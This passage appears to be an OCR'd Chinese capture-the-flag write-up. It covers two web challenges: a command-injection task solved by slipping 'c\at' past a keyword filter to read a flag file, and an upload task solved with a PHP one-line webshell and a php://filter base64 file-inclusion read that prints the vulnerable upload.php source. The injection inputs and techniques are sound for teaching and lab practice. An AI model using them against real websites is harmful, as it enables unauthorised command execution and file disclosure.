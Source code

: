 ```php
```

审计代码：

发现要求以 POST 方式上传一个 J，且屏蔽了 cat，tac 等字符，故可以使用反斜

杠绕过。

输入;J=ls /

得到：bin dev etc f14g home lib media mnt opt proc root run run.sh sbin

srv sys tmp usr var

进入 fl4g 目录，输入：J=c\at /f14g



## 4.[web]UP!UPloader

打开网站，上传一个 php 后缀的一句话木马

上传过后，网页回显如下信息：文件上传成功！不过文件路径可不好找呀~什么？

什么 include.php？我不知道啊。

根据提示打开/include.php,发现有一个文件包含的输入框，由此猜测可以使用

php 伪协议。

输入：

url/include.php?filename=php://filter/read=convert.base64-encode/reso

urce=upload.php

得到一段字符串，base64 解码后得到如下信息：

```php
<?php
error_reporting(0);
$file = $_FILES['file'];
if (isset($file) && $file['size'] > 0) {
    $ext = pathinfo($file['name'], PATHINFO_EXTENSION);
    $name = pathinfo($file['name'], PATHINFO_FILENAME);
    $dir_name = $name . '.' . $ext;
    $upload_dir = './uploads/';
    if (!is_dir($upload_dir)) {
        mkdir($upload_dir, 0755, true);
    }
    if (move_uploaded_file($file['tmp_name'], $upload_dir . md5($dir_name) . '.' . $ext)) {
        echo "文件上传成功！不过文件路径可不好找呀~什么？什么include.php？我不知道啊。" ;
    } else {
        echo "文件存储失败，未知原因......";
    }
    die();
}
?>
```
